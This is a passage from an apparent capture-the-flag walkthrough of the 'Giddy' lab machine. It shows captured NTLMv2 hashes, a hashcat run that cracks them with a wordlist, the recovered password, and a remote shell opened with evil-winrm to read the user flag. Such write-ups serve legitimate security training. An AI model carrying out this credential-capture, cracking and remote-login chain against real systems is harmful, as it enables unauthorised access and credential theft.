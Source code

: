 ```

[+] Listening for events...                                                                            

[SMB] NTLMv2 Client   : 10.10.10.104
[SMB] NTLMv2 Username : GIDDY\Stacy
[SMB] NTLMv2 Hash     : Stacy::GIDDY:372cafd77f1f383b:3AA98623C48829F14C6AC8851DA25842:010100000000000022596EB0AE65D801051E76816DAD9E9D00000000020000000000000000000000                                       
[SMB] NTLMv2 Client   : 10.10.10.104
[SMB] NTLMv2 Username : GIDDY\Stacy
[SMB] NTLMv2 Hash     : Stacy::GIDDY:36990df4bb3a70b7:4AB401200CE3D0271A1C3DA2A9080EAC:01010000000000007651CFB1AE65D8010F47CF039650CA4700000000020000000000000000000000 
```

### Cracking NTLM hashes
Next, we will use hashcat to crack the NTLM hashes

```
┌──(kali㉿kali)-[~/Desktop/giddy]
└─$ hashcat -m 5600 /home/kali/Desktop/giddy/hash.txt /home/kali/Desktop/pentest/wordlist/rockyou.txt
STACY::GIDDY:36990df4bb3a70b7:4ab401200ce3d0271a1c3da2a9080eac:01010000000000007651cfb1ae65d8010f47cf039650ca4700000000020000000000000000000000:xNnWo6272k7x
STACY::GIDDY:372cafd77f1f383b:3aa98623c48829f14c6ac8851da25842:010100000000000022596eb0ae65d801051e76816dad9e9d00000000020000000000000000000000:xNnWo6272k7x
```

Using the credentials that we have obtained, we can authenticate using evil-winrm

```
┌──(kali㉿kali)-[~/Desktop/giddy]
└─$ evil-winrm -i 10.10.10.104 -u Stacy -p 'xNnWo6272k7x'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Stacy\Documents>
```

### Obtaining user flag

```
*Evil-WinRM* PS C:\Users\Stacy\Desktop> type user.txt
<Redacted user flag>
```
